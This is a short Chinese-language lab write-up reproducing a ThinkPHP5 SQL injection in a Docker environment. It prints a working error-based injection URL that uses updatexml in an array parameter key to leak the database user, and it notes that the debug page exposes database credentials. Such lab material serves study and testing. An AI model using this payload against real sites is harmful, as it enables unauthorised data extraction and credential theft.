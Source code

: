 # ThinkPHP5 SQL注入漏洞 && 敏感信息泄露

## 漏洞描述

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xz.aliyun.com/t/125

## 环境搭建

运行环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞复现

访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![image-20220302151819426](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021518532.png)

当然，这是一个比较鸡肋的SQL注入漏洞。但通过DEBUG页面，我们找到了数据库的账号、密码：

![image-20220302151841408](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021518495.png)

这又属于一个敏感信息泄露漏洞。

